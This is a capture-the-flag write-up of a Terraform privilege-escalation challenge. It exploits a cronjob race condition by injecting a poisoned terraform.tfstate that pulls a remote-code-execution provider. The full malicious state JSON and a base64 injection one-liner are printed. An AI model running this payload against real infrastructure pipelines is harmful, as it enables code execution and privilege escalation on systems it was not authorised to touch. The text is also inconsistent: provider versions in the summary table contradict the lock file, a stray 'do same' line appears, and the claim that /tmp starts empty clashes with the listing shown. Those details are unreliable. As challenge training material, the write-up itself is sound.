








# **State of Affairs**

```
Category: Terraform/IaC
Author: Pasha Resnianski
Difficulty: Medium
```

> **Challenge Description**
> This challenge involves exploiting a Terraform environment with restricted permissions to escalate privileges and retrieve the flag.

### **Solution Overview**

This challenge demonstrates a Terraform state file poisoning attack achieved through a race condition. The key steps include:

* **Enumeration:** Discovering Terraform configuration files and cronjob behavior.
* **Provider Analysis:** Analyzing installed Terraform providers and versions.
* **Race Condition Identification:** Finding a timing window before terraform files are initialized.
* **State File Poisoning:** Creating a malicious `terraform.tfstate` with a code execution payload.
* **Flag Retrieval:** Executing a command to copy the flag with elevated privileges.

**Key Vulnerability:** A race condition in a scheduled cronjob allows an attacker to inject a malicious state file. This file executes arbitrary commands via the `statefile-rce` provider technique.


| Step | User / Access        | Technique Used                            | Result                                                                                                                                                                            |
| :--: | :------------------- | :---------------------------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|   1  | `ctf`                | **System & Process Enumeration**          | Analyzed the filesystem and monitored processes using `pspy` to identify a cronjob executing `terraform init` and `terraform apply` every minute as the privileged user `tfuser`. |
|   2  | `ctf`                | **Race Condition Identification**         | Observed the `/tmp` directory and identified a timing window before legitimate Terraform state files were initialized.                                                            |
|   3  | `ctf`                | **Terraform State File Poisoning**        | Crafted and injected a malicious `terraform.tfstate` into `/tmp` using the `statefile-rce` provider to execute an arbitrary command payload.                                      |
|   4  | `tfuser` (Automated) | **Provider Code Execution**               | The scheduled cronjob executed `terraform init`, loaded the poisoned state file, and triggered remote code execution under the `tfuser` context.                                  |
|   5  | `ctf`                | **Privilege Escalation & Flag Retrieval** | The malicious payload copied the target flag to `/tmp/flag` and assigned world-readable permissions (`777`), enabling the low-privileged `ctf` user to retrieve it.               |




## **Initial Analysis & Enumeration**

Upon accessing the environment, we start with limited privileges as the `ctf` user. Our goal is to escalate privileges to access the flag.

### **File System Enumeration**

* The `ctf` user only has read permissions for `main.tf`, `server.crt`, and `.terraform.lock.hcl`.
* Limited filesystem access suggests we need to find another attack vector.
* The Terraform lock file is readable and serves as a valuable source of information.



### **Terraform Lock File Analysis**

The `.terraform.lock.hcl` file reveals the installed providers and their versions:

```hcl
terraform:/home/tfuser$ cat .terraform.lock.hcl
# This file is maintained automatically by "terraform init".
# Manual edits may be lost in future updates.

provider "registry.terraform.io/hashicorp/local" {
  version     = "2.9.0"
  constraints = "~> 2.4"
  hashes = [
    "h1:9rBZCMNpxKwMlRbWH2QpwD3kqUCAejdOZQ/aiiDObXQ=",
    "zh:0baa4566cf77f1ff52f4293d1c8536202dd23edc197c3196413a28343c3ac3a0",
    "zh:16b5559c3c07088ddad11a9bb9e9c0799999363c2958e9a5be2bcbbf2cd9ca64",
    "zh:197c79015a10d1cce904a8ea722cbc750c42aeae2da53f44a6a0751d9fd1aa90",
    "zh:29d0b03e5343a80677ebfeb2e2c31cbe4b1f65e736e53417454a4277fec2544c",
    "zh:4896bfa6cf1d2fd562b47ef2e87f47862ae92a04f8ad5d764380f0c6653473b8",
    "zh:531f8529cbca49f681883e57761a05a8398afaef6d1ab0d205d26bf12f4428e8",
    "zh:6aaf5011d83161c86d2bfb80c0923ec934e578288758da2f37acb7aec129004b",
    "zh:7430275253d3d3c40aa6179e0ec0d63212874dbbc06c5a51b9d07ec590f9756c",
    "zh:78d5eefdd9e494defcb3c68d282b8f96630502cac21d1ea161f53cfe9bb483b3",
    "zh:be17dc611e95e26cdf6cad79dfccf1064f0e32032a2efeb939a9bbe7fb1cbfe9",
    "zh:f0e3b0aa644202e1d79d2000dca91f6019425da71e9800fa23f27e51c034f195",
    "zh:f62bae4519e4ead49182ddc8afe8cf61e2a4c3ba3973b0fbba967736a2696aa3",
    "zh:fcafa360a5b0b96244f26f4e3a6d642b716a376557142c2442ff2fb12d11da18",
  ]
}

provider "registry.terraform.io/hashicorp/time" {
  version     = "0.9.2"
  constraints = "~> 0.9.0"
  hashes = [
    "h1:SOMtrnkGDu+lWaxkH/VSn1UcgFtRylE8hsske2Q6p7A=",
    "zh:140ca678c8f2e0c73fcbda470531db01ca5d3b22cf6ddcc96e65fc28d179d81e",
    "zh:1a85697ab9995e7a5af34d6f971939e748486c1818ce8c7f98e27b47a45db43b",
    "zh:3cbe245e318fa6ae905367ffe4980a1dbcd8bde630c4911f34ac297e6f8080cb",
    "zh:3eb83fd3857ebdc1e40c0dc6dcc5c161c122560765115b31360a0722158d9b8b",
    "zh:4d7611ddc90c7fc458a8255c1ad87286512a497f6c842786cda1b93f18ca463e",
    "zh:78d5eefdd9e494defcb3c68d282b8f96630502cac21d1ea161f53cfe9bb483b3",
    "zh:7e8d3fd420d9b41a95f95a023c830f9e53feee54d47d640679b3b5bfbb757422",
    "zh:90e63a84dda94619199f541e48388e8d1306fc9857b10c75dfee901ec9e4d94b",
    "zh:cc52109be89301a1309d21704599ecd70e50c339087f7577da865588655f240d",
    "zh:d5ee0e0abbfe75a9f33ada420b8bb8f4a3a0f97ebc25c1e55aa80a9c12f70519",
    "zh:e15abaa2dc6751918802dc283e7348d0c99944fcf581a96e481a5afc3c13ebae",
    "zh:f5c6b98cb1b40728150415b2b8a1e8075d5704c5cf6fc0b95b6b2dbaf560427a",
  ]
}

provider "registry.terraform.io/hashicorp/tls" {
  version     = "4.3.0"
  constraints = "~> 4.0"
  hashes = [
    "h1:j/BqLS2N2AScZyotd9nZpHdieJ7e5S8y+A+ZfIu8kL8=",
    "zh:0ab58d6f8991d436c7d2dbd89ed814709b949b07ac5a54ee53b0aec1fa772a8b",
    "zh:60b347abcb56f45d97c56f14d895069cd15a83993f199777f571b79fea3642ee",
    "zh:6889be32640349230de3f23856e6f04e0e9ced4a84a27d3f552fa54684448218",
    "zh:73f8e1ecf7135033165fb14b7e8bf4d656f3ce13065ec35762ea0481975328c7",
    "zh:94ce25ee253eca0b42cae9c856b36bca8103b6453012d1b279c3623c805f2d42",
    "zh:96bc6de9fd67bc446fd11257872e1ffb1029a996ed1d65a3f6b43f6d408ad9ab",
    "zh:97c609a310a51bfd504d704e036d72064a84bf0bdb36cc08cd4cc66098212b41",
    "zh:a12c16e94533c5bd123f75032576b9dc91dd5d5ccd5f7cf331d0f2e1adc55cf8",
    "zh:c4f014f876adf7af57188795050bda5b0029d8c7d7773031102b6c36dcf1fc21",
    "zh:d9b0a21583aaa3df3a95394fb949a3c515ff71c2ff5a1fc4a73d364aa90bfca5",
    "zh:da510d22f0c6d71ad19a76406f106b782448f512375787ecfabb338ed1e311a7",
    "zh:f0e9447a9ce3a24cdaa113089e65663c836d8b9bfdb915a1c0284e0112cab5c0",
    "zh:f569b65999264a9416862bca5cd2a6177d94ccb0424f3a4ef424428912b9cb3c",
  ]
}
terraform:/home/tfuser$ 
```

**Provider Status Summary:**

do same

| Provider | Version | Status / Notes |
|  |  |  |
| `hashicorp/local` | 2.6.1 | Latest version |
| `hashicorp/time` | 0.9.2 | Outdated (Current: 0.13.1), but no known exploits |
| `hashicorp/tls` | 4.1.0 | Latest version |

> **Note:** Attempting to run `terraform plan` or `terraform apply` directly returns an error indicating insufficient permissions to read the required Terraform configuration files.



## **Identifying the Execution Environment**

### **Cronjob Discovery**

Using `pspy` to monitor background processes, we discover that `supercronic` is executing scheduled tasks.




**Crontab Contents:**

```bash
* * * * * terraform -chdir=/home/tfuser init && terraform -chdir=/home/tfuser apply -auto-approve > /var/tmp/tfoutput.log 2>&1

```




**Analysis of the Cronjob:**

* Runs every minute.
* Executes `terraform init` followed by `terraform apply -auto-approve`.
* Runs as the `tfuser` (which has the elevated privileges we need).
* Logs all output to `/var/tmp/tfoutput.log`.
* *Limitation:* We do not have write permissions to the crontab, so traditional cronjob privilege escalation is not viable.



### **Terraform Output Analysis**

By reading `/var/tmp/tfoutput.log`, we can observe Terraform's behavior:

```bash
terraform:/home/tfuser$ cat /var/tmp/tfoutput.log

Terraform used the selected providers to generate the following execution
plan. Resource actions are indicated with the following symbols:
  + create

Terraform will perform the following actions:

  # local_file.cert_file will be created
  + resource "local_file" "cert_file" {
      + content              = (known after apply)
      + content_base64sha256 = (known after apply)
      + content_base64sha512 = (known after apply)
      + content_md5          = (known after apply)
      + content_sha1         = (known after apply)
      + content_sha256       = (known after apply)
      + content_sha512       = (known after apply)
      + directory_permission = "0777"
      + file_permission      = "0777"
      + filename             = "/home/tfuser/server.crt"
      + id                   = (known after apply)
    }

  # time_static.current_time will be created
  + resource "time_static" "current_time" {
      + day      = (known after apply)
      + hour     = (known after apply)
      + id       = (known after apply)
      + minute   = (known after apply)
      + month    = (known after apply)
      + rfc3339  = (known after apply)
      + second   = (known after apply)
      + triggers = {
          + "timestamp" = (known after apply)
        }
      + unix     = (known after apply)
      + year     = (known after apply)
    }

  # tls_private_key.my_key will be created
  + resource "tls_private_key" "my_key" {
      + algorithm                     = "RSA"
      + ecdsa_curve                   = "P224"
      + id                            = (known after apply)
      + private_key_openssh           = (sensitive value)
      + private_key_pem               = (sensitive value)
      + private_key_pem_pkcs8         = (sensitive value)
      + public_key_fingerprint_md5    = (known after apply)
      + public_key_fingerprint_sha256 = (known after apply)
      + public_key_openssh            = (known after apply)
      + public_key_pem                = (known after apply)
      + rsa_bits                      = 2048
    }

  # tls_self_signed_cert.my_cert will be created
  + resource "tls_self_signed_cert" "my_cert" {
      + allowed_uses          = [
          + "key_encipherment",
          + "digital_signature",
          + "server_auth",
        ]
      + cert_pem              = (known after apply)
      + early_renewal_hours   = 0
      + id                    = (known after apply)
      + is_ca_certificate     = false
      + key_algorithm         = (known after apply)
      + max_path_length       = (known after apply)
      + private_key_pem       = (sensitive value)
      + ready_for_renewal     = false
      + set_authority_key_id  = false
      + set_subject_key_id    = false
      + validity_end_time     = (known after apply)
      + validity_period_hours = 24
      + validity_start_time   = (known after apply)

      + subject {
          + common_name  = "localhost"
          + organization = "terraform is great!"
        }
    }

Plan: 4 to add, 0 to change, 0 to destroy.
time_static.current_time: Creating...
time_static.current_time: Creation complete after 0s [id=2026-05-28T17:32:04Z]
tls_private_key.my_key: Creating...
tls_private_key.my_key: Creation complete after 0s [id=382cb2edb38d85a3fcb4788a53d116da428fc9e1]
tls_self_signed_cert.my_cert: Creating...
tls_self_signed_cert.my_cert: Creation complete after 0s [id=272257960190643752986887299911735811236]
local_file.cert_file: Creating...
local_file.cert_file: Creation complete after 0s [id=9c6522de9c783c2d1bbd68093c40972866ab67fa]

Apply complete! Resources: 4 added, 0 changed, 0 destroyed.
terraform:/home/tfuser$ 
```

* Terraform is managing TLS certificates and keys.
* Resources are being replaced every minute due to `replace_triggered_by`.
* The state includes `time_static`, `tls_private_key`, `tls_self_signed_cert`, and `local_file` resources.
* All operations execute with `tfuser` privileges.

### **Temporary Files Discovery**

Examining the `/tmp` directory reveals Terraform state files owned by `tfuser:tfgroup`. We cannot directly modify these existing state files due to strict permissions.



## **Identifying the Vulnerability**

### **Race Condition Discovery**

A critical timing behavior exists: **Terraform files are not instantiated immediately when the environment spawns.**

If we check the filesystem immediately after the instance spawns:

```bash
terraform:/tmp/.terraform$ ls -al && ls -alR /tmp
total 16
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxrwxrwt    1 root     root          4096 May 28 17:35 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 providers
-rw-r--r--    1 tfuser   tfgroup        206 May 28 17:32 terraform.tfstate
/tmp:
total 44
drwxrwxrwt    1 root     root          4096 May 28 17:35 .
drwxr-xr-x    1 root     root          4096 May 28 17:31 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .terraform
-rw-r--r--    1 tfuser   tfgroup      15997 May 28 17:35 terraform.tfstate
-rw-r--r--    1 tfuser   tfgroup      15990 May 28 17:35 terraform.tfstate.backup

/tmp/.terraform:
total 16
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxrwxrwt    1 root     root          4096 May 28 17:35 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 providers
-rw-r--r--    1 tfuser   tfgroup        206 May 28 17:32 terraform.tfstate

/tmp/.terraform/providers:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 registry.terraform.io

/tmp/.terraform/providers/registry.terraform.io:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    5 tfuser   tfgroup       4096 May 28 17:32 hashicorp

/tmp/.terraform/providers/registry.terraform.io/hashicorp:
total 20
drwxr-xr-x    5 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 local
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 time
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 tls

/tmp/.terraform/providers/registry.terraform.io/hashicorp/local:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    5 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 2.9.0

/tmp/.terraform/providers/registry.terraform.io/hashicorp/local/2.9.0:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 linux_amd64

/tmp/.terraform/providers/registry.terraform.io/hashicorp/local/2.9.0/linux_amd64:
total 17596
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
-rw-r--r--    1 tfuser   tfgroup      16757 May 28 17:32 LICENSE.txt
-rwxr-xr-x    1 tfuser   tfgroup   17985720 May 28 17:32 terraform-provider-local_v2.9.0_x5

/tmp/.terraform/providers/registry.terraform.io/hashicorp/time:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    5 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 0.9.2

/tmp/.terraform/providers/registry.terraform.io/hashicorp/time/0.9.2:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 linux_amd64

/tmp/.terraform/providers/registry.terraform.io/hashicorp/time/0.9.2/linux_amd64:
total 13232
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
-rwxr-xr-x    1 tfuser   tfgroup   13541376 May 28 17:32 terraform-provider-time_v0.9.2_x5

/tmp/.terraform/providers/registry.terraform.io/hashicorp/tls:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    5 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 4.3.0

/tmp/.terraform/providers/registry.terraform.io/hashicorp/tls/4.3.0:
total 12
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 linux_amd64

/tmp/.terraform/providers/registry.terraform.io/hashicorp/tls/4.3.0/linux_amd64:
total 18704
drwxr-xr-x    2 tfuser   tfgroup       4096 May 28 17:32 .
drwxr-xr-x    3 tfuser   tfgroup       4096 May 28 17:32 ..
-rw-r--r--    1 tfuser   tfgroup      16757 May 28 17:32 LICENSE.txt
-rwxr-xr-x    1 tfuser   tfgroup   19120312 May 28 17:32 terraform-provider-tls_v4.3.0_x5
terraform:/tmp/.terraform$ 
```

1. No Terraform files exist in `/tmp`.
2. No provider plugins are installed.
3. Legitimate files only appear approximately **1 minute** after spawn.

This creates a **race condition window** where we can inject our own files before the system initializes the legitimate ones.

### **State File Code Execution (RCE)**

This race condition enables **Terraform state file poisoning** (documented in HackTricks). Using the `terraform-provider-statefile-rce` technique, we can achieve code execution. When `terraform init` is executed with a compromised state file, Terraform downloads and initializes the providers referenced within it—including malicious ones designed to execute arbitrary code during the initialization phase.


## **Exploitation**

### **Creating the Malicious State File**

We craft a payload utilizing the `offensive-actions/statefile-rce` provider. This will execute our commands when the cronjob triggers `terraform init`.

**Target Command:**
`cp /home/tfuser/flag /tmp/flag && chmod 777 /tmp/flag`

**Malicious `terraform.tfstate` Payload:**

```json
{
  "version": 4,
  "terraform_version": "1.14.3",
  "serial": 14,
  "lineage": "0d00863b-f893-e48e-75c1-33feabe31a91",
  "outputs": {},
  "resources": [
    {
      "mode": "managed",
      "type": "rce",
      "name": "rce",
      "provider": "provider[\"registry.terraform.io/offensive-actions/statefile-rce\"]",
      "instances": [
        {
          "schema_version": 0,
          "attributes": {
            "command": "cp /home/tfuser/flag /tmp/flag && chmod 777 /tmp/flag",
            "id": "rce"
          },
          "sensitive_attributes": [],
          "private": "bnVsbA=="
        }
      ]
    }
  ],
  "check_results": null
}

```

### **Exploiting the Race Condition**

To exploit this, we must restart the instance to reset the environment, then immediately execute our injection command before the cronjob runs.

**Execution Command:**

```bash
cd /tmp && echo eyJ2ZXJzaW9uIjo0LCJ0ZXJyYWZvcm1fdmVyc2lvbiI6IjEuMTQuMyIsInNlcmlhbCI6MTQsImxpbmVhZ2UiOiIwZDAwODYzYi1mODkzLWU0OGUtNzVjMS0zM2ZlYWJlMzFhOTEiLCJvdXRwdXRzIjp7fSwicmVzb3VyY2VzIjpbeyJtb2RlIjoibWFuYWdlZCIsInR5cGUiOiJyY2UiLCJuYW1lIjoicmNlIiwicHJvdmlkZXIiOiJwcm92aWRlcltcInJlZ2lzdHJ5LnRlcnJhZm9ybS5pby9vZmZlbnNpdmUtYWN0aW9ucy9zdGF0ZWZpbGUtcmNlXCJdIiwiaW5zdGFuY2VzIjpbeyJzY2hlbWFfdmVyc2lvbiI6MCwiYXR0cmlidXRlcyI6eyJjb21tYW5kIjoiY3AgL2hvbWUvdGZ1c2VyL2ZsYWcgL3RtcC9mbGFnICYmIGNobW9kIDc3NyAvdG1wL2ZsYWciLCJpZCI6InJjZSJ9LCJzZW5zaXRpdmVfYXR0cmlidXRlcyI6W10sInByaXZhdGUiOiJiblZzYkE9PSJ9XX1dLCJjaGVja19yZXN1bHRzIjpudWxsfQ== | base64 -d > terraform.tfstate && chmod 777 terraform.tfstate
```

**Breakdown of the command:**

1. Decodes the base64-encoded malicious JSON state file.
2. Writes it directly to `/tmp/terraform.tfstate`.
3. Sets `777` permissions to ensure it is fully readable when the cronjob executes.


## **Getting the Flag**

We can monitor the `/tmp` directory using `watch ls -la /tmp`.

```
watch -n 1 'ls -la /tmp/flag && cat /tmp/flag 2>/dev/null'
```

After approximately one minute, the cronjob executes `terraform init`, which:

1. Reads our newly injected malicious state file.
2. Attempts to initialize the fake `statefile-rce` provider.
3. Executes our embedded command with `tfuser` privileges.
4. Copies the flag to `/tmp/flag` and makes it readable.

**Success!**
**Flag:** `WIZ_CTF{B00tThXXXXXXXXXXXXXXXXXXXXXXXXXX}`



